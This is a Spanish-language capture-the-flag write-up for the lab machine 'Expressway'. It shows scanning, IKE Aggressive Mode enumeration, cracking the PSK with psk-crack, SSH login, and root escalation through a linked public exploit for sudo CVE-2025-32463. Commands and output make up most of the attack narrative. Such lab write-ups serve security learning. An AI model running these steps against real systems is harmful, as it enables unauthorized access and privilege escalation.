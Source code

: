 # Expressway

## Reconocimiento inicial
Primero lanzamos un escaneo básico de recnocimiento sobre el objetivo:


```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.245 -oG allports
```

```shell
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
```

Solo encontramos un puerto abierto por lo tanot vamos a comprobar si es vulnerable por la versión

```shell
nmap -sCV -p22 10.10.11.87 -oN targeted
```

Obtenemos que la versión es actual y no es vulnerable por lo tanto vamos a tener que hacer otro tipo de escaneo 
por UDP

```shell 
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 10.0p2 Debian 8 (protocol 2.0)

```

### Enumeración de los puertos UDP

De la misma manera hacemos un escaneo de los puertos más representativos de UDP para ello utilizamos el siguiente comando.

```shell
nmap -sU --top-ports 100 10.10.11.87 -oN udp_top100
```

Estos son los puertos interesante que nos encontramos que estan abierto o filtrados.

```shell
68/udp   open|filtered dhcpc
69/udp   open|filtered tftp
500/udp  open          isakmp
4500/udp open|filtered nat-t-ike
```

Aquí lo importante es el puerto 500/udp (ISAKMP), que corresponde a IKE (Internet Key Exchange).

## IKE

IKE (Internet Key Exchange) es un protocolo usado en IPsec VPNs.
Funciona en el puerto 500/UDP y se encarga de negociar claves y parámetros de seguridad entre dos dispositivos que quieren montar un túnel VPN.

Existen dos modos principales:

- Main Mode

- Aggressive Mode (más rápido, pero menos seguro porque puede filtrar información como el identificador de usuario y hashes de PSK).

En esta máquina, el servicio estaba configurado en Aggressive Mode con autenticación por PSK (Pre-Shared Key) → esto es vulnerable a ataques de diccionario.

### Enumeración de IKE con (ike-scan)

Vamos a comprobar le modo Main
```shell
ike-scan -M 10.10.11.87
```
Recibimos la siguiente respuesta:
```shell
Starting ike-scan 1.9.6 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
10.10.11.87     Main Mode Handshake returned
        HDR=(CKY-R=86b87084be5796a2)
        SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800)
        VID=09002689dfd6b712 (XAUTH)
        VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0)

Ending ike-scan 1.9.6: 1 hosts scanned in 0.068 seconds (14.71 hosts/sec).  1 returned handshake; 0 returned notify
```                                                                                             

Tambien vamos a probar la opción `-A` de Aggressive Mode

```shell
ike-scan -A 10.10.11.87
```
```shell
Starting ike-scan 1.9.6 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
10.10.11.87     Aggressive Mode Handshake returned HDR=(CKY-R=26cc3f02d2207e44) SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800) KeyExchange(128 bytes) Nonce(32 bytes) ID(Type=ID_USER_FQDN, Value=ike@expressway.htb) VID=09002689dfd6b712 (XAUTH) VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0) Hash(20 bytes)

Ending ike-scan 1.9.6: 1 hosts scanned in 0.065 seconds (15.28 hosts/sec).  1 returned handshake; 0 returned notify
```

Como se puede apreciar el servicio revela un ID de usuario(ike@expressway.htb) y un hash del PSK

### Crackeo del PSK
Generamos un hash con el siguiente comando para posteriormente intentar averiguar que contiene.
```shell
ike-scan -A 10.10.11.87 --id=ike@expressway.htb --pskcrack=hash.txt
```
Con el comando de `psk-crack` intentamos obtner el valor del hash
```shell
psk-crack -d /usr/share/wordlists/rockyou.txt hash.txt
```

Vemos que el resultado es la contraseña siguiente.

```shell
key "freakingrockstarontheroad"
```

## Intrusión a la máquina por SSH

Con el ID que encontramos (ike) y la PSK crackeada, podemos probar acceso vía SSH:
```shell
ssh ike@10.10.11.87
Contraseña: freakingrockstarontheroad
```
✅ Conseguimos acceso a la máquina como el usuario ike.


## Enumeración interna

Comprobamos si el usuario `ike`puede usar sudo

```shell
sudo -l
```
Obtenemos de resultado lo siguiente:

```shell
Sorry, user ike may not run sudo on expressway.
```

👉 No tiene permisos sudo.

Así que pasamos a buscar binarios SUID (que pueden darnos escalada de privilegios):
```shell
find / -perm -4000 -type f 2>/dev/null
```
Resultado interesante:
```shell
/usr/local/bin/sudo
```


👉 Un binario de sudo instalado en /usr/local/bin/, distinto al estándar del sistema.
Además, comprobamos su versión:

```shell
/usr/local/bin/sudo -V
```

Resultado:

```shell
Sudo version 1.9.17
```

## 8. Escalada de privilegios (CVE-2025-32463)

La versión sudo 1.9.17 tiene una vulnerabilidad crítica que permite escalar a root sin conocer credenciales si el binario es SUID (como en este caso).

Para explotarla, subimos a la máquina el exploit público cve-2025-32463.sh.

El exploit que he utilizado es el siguiente:

```shell
https://github.com/KaiHT-Ladiant/CVE-2025-32463/blob/main/cve-2025-32463.sh/
```

Para subir el exploit a la maquina he utilizado el siguiente comando:
```shell
scp cve-2025-32463.sh ike@10.10.11.87:/tmp/
```

Por último comprobamos que realmente somos usuario root.